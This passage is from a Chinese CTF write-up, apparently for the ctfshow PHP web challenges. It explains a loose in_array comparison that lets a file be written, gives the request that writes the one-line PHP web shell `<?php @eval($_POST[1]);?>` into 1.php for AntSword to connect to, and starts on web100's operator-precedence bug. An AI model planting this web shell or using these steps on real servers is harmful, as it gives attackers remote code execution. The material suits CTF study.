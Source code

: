 分析一下题目首先将许多随机数放入数组中，然后当传入的n在数组中，将content写入传入的n中

由于这里循环了很多次，出现1的概率比较大（多试几次总能成功）

然后是 1.php在进行判断时 `1.php == 1`

并将一句话木马写入content

```
?n=1.php

POST:content=<?php @eval($_POST[1]);?>
```

蚁剑连接即可



### web100

```
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
} 
```

`is_numeric`

> — 检测变量是否为数字或数字字符串

这个题第一次做的时候时非常懵逼的

这题的解题点在

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

这里就要讲一下运算符的优先级问题了

```
&& --> || --> = --> and --> or
```

所以题目这里赋值的优先级大于and，即

```
$v0=is_numeric($v1)
```
